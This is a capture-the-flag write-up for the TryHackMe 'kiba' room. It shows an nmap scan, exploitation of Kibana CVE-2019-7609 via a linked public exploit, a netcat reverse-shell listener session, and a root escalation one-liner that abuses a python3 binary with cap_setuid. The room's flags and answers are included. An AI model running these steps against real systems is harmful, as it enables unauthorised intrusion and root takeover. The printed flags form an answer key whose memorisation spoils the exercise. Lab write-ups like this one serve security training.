

# kiba

Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

[kiba](https://tryhackme.com/room/kiba)

## 💢 We will cover  the topics

- Network Enumeration
- CVE-2019-7609 - Kibana Timelion < 5.6.15 and 6.6.1
- Capabilities


---------------------------------

## flags

Are you able to complete the challenge?
The machine may take up to 7 minutes to boot and configure

```
kali@kali:~/CTFs/tryhackme/kiba$ sudo nmap -A -sC -sV -sS -O -p- -Pn 10.10.254.89
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 18:16 CEST
Nmap scan report for 10.10.254.89
Host is up (0.038s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5601/tcp open  esmagent?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Sun, 04 Oct 2020 16:20:10 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest:
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Sun, 04 Oct 2020 16:20:09 GMT
|   HTTPOptions:
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Sun, 04 Oct 2020 16:20:09 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.80%I=7%D=10/4%Time=5F79F58D%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kibana\r\nk
SF:bn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6
SF:c\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnection:\
SF:x20close\r\nDate:\x20Sun,\x2004\x20Oct\x202020\x2016:20:09\x20GMT\r\n\r
SF:\n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x
SF:20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\nconte
SF:nt-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-
SF:cache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x20Sun,
SF:\x2004\x20Oct\x202020\x2016:20:09\x20GMT\r\n\r\n{\"statusCode\":404,\"e
SF:rror\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLS
SF:essionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalSe
SF:rverCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSessio
SF:nReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not
SF:\x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d049232
SF:83ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=utf-8\
SF:r\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnection:\x
SF:20close\r\nDate:\x20Sun,\x2004\x20Oct\x202020\x2016:20:10\x20GMT\r\n\r\
SF:n{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Fo
SF:und\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LDAPB
SF:indReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOptions,1C
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/4%OT=22%CT=1%CU=37779%PV=Y%DS=2%DC=T%G=Y%TM=5F79F59
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST1
OS:1NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   36.44 ms 10.8.0.1
2   36.70 ms 10.10.254.89

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.07 seconds
```

`Version: 6.5.4`

- [CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609)

```
kali@kali:~/CTFs/tryhackme/kiba$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.124.172] 44970
bash: cannot set terminal process group (958): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Mar 31  2020 .
drwxr-xr-x 22 root root 4096 Mar 31  2020 ..
drwxr-xr-x  6 kiba kiba 4096 Mar 31  2020 kiba
kiba@ubuntu:/home/kiba/kibana/bin$ cd /home
cd /home
kiba@ubuntu:/home$ ls
ls
kiba
kiba@ubuntu:/home$ cd kiba
cd kiba
kiba@ubuntu:/home/kiba$ ls
ls
elasticsearch-6.5.4.deb
kibana
user.txt
kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
kiba@ubuntu:/home/kiba$
```

`THM{1s_easy_pwn3d_k1bana_w1th_rce}`

```
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
kiba@ubuntu:/home/kiba/kibana/bin$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<please/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
SHELL=/bin/bash script -q /dev/null
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ubuntu:/home/kiba/kibana/bin# cat /root/root.txt
cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
root@ubuntu:/home/kiba/kibana/bin#
```

THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}

1. What is the vulnerability that is specific to programming languages with prototype-based inheritance?



`Prototype pollution`

2. What is the version of visualization dashboard installed in the server?

`6.5.4`

3. What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

`CVE-2019-7609`

1. Compromise the machine and locate user.txt
2. Capabilities is a concept that provides a security system that allows "divide" root privileges into different values

`No answer needed`

3. How would you recursively list all of these capabilities?

`getcap -r /`

4. Escalate privileges and obtain root.txt
